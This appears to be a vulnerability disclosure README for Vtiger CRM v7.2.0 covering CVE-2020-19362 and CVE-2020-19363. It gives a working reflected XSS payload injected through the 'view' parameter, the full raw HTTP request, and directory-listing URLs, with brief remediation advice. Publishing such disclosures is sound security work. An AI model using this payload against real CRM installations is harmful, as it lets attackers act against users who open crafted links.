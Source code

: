 # Vtiger-CRM-Vulnerabilities
Vtiger CRM v7.2.0 has Cross-Site Scripting (XSS) and directory listing vulnerabilities.

# CVE-2020-19362 - CVE-2020-19363
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-19362

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-19363

## Vtiger CRM Reflected XSS Vulnerability
Reflected XSS in the [Vtiger CRM v7.2.0](https://www.vtiger.com/open-source-crm/download-open-source/) can result in an attacker performing malicious actions to users who open a maliciously crafted link or third-party web page.

### PoC
To exploit vulnerability, someone could use a GET request to **'http://[server]//vtigercrm/index.php?app=&module=Campaigns&view=%3Ctest%22%3E%3Cscript%3Ealert(document.domain)%3C%2fscript%3E'** by manipulating **'view'** parameter in the request header to impact users who open a maliciously crafted link or third-party web page.


```
GET /vtigercrm/index.php?app=&module=Campaigns&view=%3Ctest%22%3E%3Cscript%3Ealert(document.domain)%3C%2fscript%3E HTTP/1.1
Host: 172.16.155.128
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=nc32t8env2h236vf3s6ftor3im
Upgrade-Insecure-Requests: 1
```

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_xss_01.png)

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_xss_02.png)

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_xss_03.png)

## Vtiger CRM Directory Listing Vulnerabilities

### PoC

```
http://[server]/vtigercrm/libraries/
http://[server]/vtigercrm/layouts/
```

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_directorylisting_02.png)

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_directorylisting_01.png)


## Remediation
You should make sure the directory does not contain sensitive information or you may want to restrict directory listings from the web server configuration.
